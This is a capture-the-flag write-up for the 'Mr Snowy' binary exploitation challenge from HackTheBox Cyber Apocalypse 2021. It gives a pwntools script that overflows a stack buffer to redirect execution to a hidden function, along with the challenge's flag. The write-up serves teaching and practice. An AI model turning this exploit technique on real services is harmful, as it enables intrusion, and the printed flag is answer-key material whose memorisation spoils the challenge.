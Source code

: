 ```yaml
---
name: Mr Snowy (2021)
event: HackTheBox Cyber Apocalypse CTF 2021
category: Pwn
description: Writeup for Mr Snowy (Pwn) - HackTheBox Cyber Apocalypse CTF (2021) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Mr Snowy

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/20FkOdoMiRU/0.jpg)](https://youtu.be/20FkOdoMiRU?t=1434s "HTB Cyber Apocalypse CTF 2021: Mr Snowy")

## Challenge Description

> Mr Snowy There is ❄️ snow everywhere!! Kids are playing around, everything looks amazing. But, this ☃️ snowman... it scares me.. He is always ? staring at Santa's house. Something must be wrong with him.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Find offset to EIP/RIP for buffer overflows
def find_ip(payload):
    # Launch process and send payload
    p = process(exe)
    p.sendlineafter(b'>', b'1')
    p.sendlineafter(b'>', payload)
    # Wait for the process to crash
    p.wait()
    # Print out the address of EIP/RIP at the time of crashing
    # ip_offset = cyclic_find(p.corefile.pc)  # x86
    ip_offset = cyclic_find(p.corefile.read(p.corefile.sp, 4))  # x64
    info('located EIP/RIP offset at {a}'.format(a=ip_offset))
    return ip_offset

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
continue
'''.format(**locals())

# Binary filename
exe = './mr_snowy'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (warning/info/debug)
context.log_level = 'info'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Pass in pattern_size, get back EIP/RIP offset
offset = find_ip(cyclic(500))

# Start program
io = start()

# Build the payload
payload = flat({
    offset: elf.symbols.deactivate_camera
})

# Save the payload to file
write('payload', payload)

# Send the payload
io.sendlineafter(b'>', b'1')
io.sendlineafter(b'>', payload)

# Got Shell?
io.interactive()
```

Flag: `HTB{d4sh1nG_thr0ugH_th3_sn0w_1n_4_0n3_h0r53_0p3n_sl31gh!!!}`
